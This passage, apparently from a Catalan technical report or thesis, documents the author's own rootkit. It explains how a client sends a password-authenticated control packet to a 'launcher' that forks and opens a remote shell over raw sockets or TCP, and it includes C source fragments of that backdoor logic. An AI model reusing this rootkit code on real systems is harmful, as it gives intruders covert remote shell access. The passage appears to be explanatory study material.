 Podem veure en la figura \ref{fig:client_tcp_action2} que per a fer això, primer ens cal inicialitzar el paquet \ref{sec:paquet} de control amb els passwords corresponents, i un cop inicialitzat, enviar-lo cap al launcher per a començar a executar l'acció escollida: 

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYaE[// Generate packet]
memcpy(cmdpkt.pass, clientauth, @PYag[20]);
cmdpkt.port @PYbe[=] local_port;
cmdpkt.action @PYbe[=] action;
@PYay[if] (file) memcpy(cmdpkt.bytes, file, strlen(file));

@PYaE[// Send packet]
write(sock, @PYbe[&]cmdpkt, @PYay[sizeof](cmdpkt));
do_action(action, sock, sock, file);
\end{Verbatim}
\caption{client.c::tcp\_action()}
\label{fig:client_tcp_action2}
\end{figure}

\subsection{Obtenció d'una shell i un TTY}

Per a l'obtenció d'una shell lligada a un tty, només ens cal tenir disponible una shell en el sistema o haver compilat el
nostre rootkit, tot afegint-hi la nostre pròpia shell. En aquest cas, just després
d'establir la connexió, el launcher fa un fork per tal de poder gestionar amb un procés exclusiu la connexió i la shell. Això ho podem veure a la figura \ref{fig:launcher_do_action}, just abans de la crida launcher\_shell(). Podem veure en aquesta mateixa figura que depenent de l'usuari que executi el codi, el rootkit utilitzarà un raw socket o no. Això és perquè l'acció 
SHELL, només s'executa en mode RAW i en mode TCP. En mode RAW, el rootkit s'està executant com a usuari privilegiat, i en
mode TCP no.

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYay[case] SHELL:
    debug(@PYaB["]@PYaB[Launching shell]@PYao[\n]@PYaB["]);
    @PYay[if] (@PYbe[!]getuid()) {
        debug(@PYaB["]@PYaB[Starting DirectRAW service]@PYao[\n]@PYaB["]);
        r @PYbe[=] create_rawsock_session(rawsocks, ip@PYbe[-]@PYbe[>]s_addr, sport, d@PYbe[-]@PYbe[>]port);
        @PYay[if] (fork()) @PYay[return];
        launcher_shell(r@PYbe[-]@PYbe[>]r@PYZlb[]@PYag[0]@PYZrb[], r@PYbe[-]@PYbe[>]w@PYZlb[]@PYag[1]@PYZrb[]);
        destroy_rawsock_session(r);
    } @PYay[else] {
        @PYay[if] (fork()) @PYay[return];
        launcher_shell(sock, sock);
        close(sock); }
\end{Verbatim}
\caption{launcher.c::do\_action()}
\label{fig:launcher_do_action}
\end{figure}

